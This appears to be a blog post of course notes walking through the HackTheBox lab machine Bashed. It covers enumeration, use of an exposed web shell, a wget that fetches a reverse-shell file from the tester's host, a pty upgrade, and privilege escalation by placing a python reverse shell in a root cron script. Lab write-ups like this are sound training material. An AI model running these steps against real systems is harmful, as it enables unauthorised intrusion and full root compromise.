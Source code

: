 ```yaml
---
layout:     post
title:      TCM PEH Hacking Bashed Notes
date:       2021-03-22
summary:    TheCyberMentor's Practical Ethical Hacking course mid-course capstone, hacking HackTheBox Bashed
categories: certs
thumbnail: cogs
tags:
 - certs
 - pwned
---
```

<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Bashed_0"></a>HTB Bashed</h2>
<p class="has-line-data" data-line-start="1" data-line-end="2">Recording actions to derive method</p>
<p class="has-line-data" data-line-start="3" data-line-end="68">nmap -A -T4 -p- 10.10.10.68<br>
Noted open port 80<br>
Noted Apache 2.4.18<br>
Noted Ubuntu OS<br>
searchsploit apache 2.4<br>
Noted results apache2ctl local exploit<br>
Visited 10.10.10.68:80 in browser<br>
Naavigated around<br>
dirbuster&amp;<br>
<a href="http://10.10.10.68">http://10.10.10.68</a><br>
port 80<br>
go faster<br>
medium wordlist<br>
directories and file extensions<br>
extension php<br>
Letting dirbuster run<br>
Viewed source for a few pages, nothing unusual<br>
Dirbuster results<br>
Noted /uploads<br>
Noted /dev<br>
Noted /dev/phpbash<br>
Navigated to 10.10.10.68/dev/phpbash.php<br>
Noted that it’s a web shell<br>
ls<br>
cd /; ls<br>
ls /home<br>
whoami<br>
ls /home/<br>
cd arrexel<br>
cat user.txt<br>
sudo -l<br>
Noted can run scriptmanager with NOPASSWD<br>
sudo su scriptmanager<br>
Noted no tty present for user scriptmanager<br>
Changed IP and PORT<br>
Saved as rev.php<br>
Created netcat listener<br>
Created python http server from rev.php’s directory<br>
In webshell<br>
wget <a href="http://hisIP/rev.php">http://hisIP/rev.php</a><br>
ls<br>
Noted rev.php exists<br>
Navigated to /10.10.10.68/uploads/rev.php<br>
Noted shell connected<br>
Noted can’t access tty<br>
python -c ‘import pty; pty.spawn(&quot;/bin/bash&quot;);’<br>
sudo su scriptmanager<br>
Noted failed to switch user<br>
sudo -u scriptmanager /bin/bash<br>
Noted that we are now scriptmanager!<br>
pwd<br>
ls -la<br>
hsitory<br>
cd scripts<br>
ls -la<br>
Noted <a href="http://test.py">test.py</a> and test.txt<br>
cat <a href="http://test.py">test.py</a><br>
Noted it opens test.txt, writes to it, then closes it<br>
Noted that time ran was mere minutes ago<br>
Noted that means cronjob<br>
Noted it’s saving test.txt as root<br>
Copy/pasted python reverse shell into <a href="http://test.py">test.py</a> (<a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet</a>)<br>
Started new netcat listener<br>
Noted <a href="http://test.py">test.py</a> ran and netcat caught shell<br>
Noted shell user is root</p>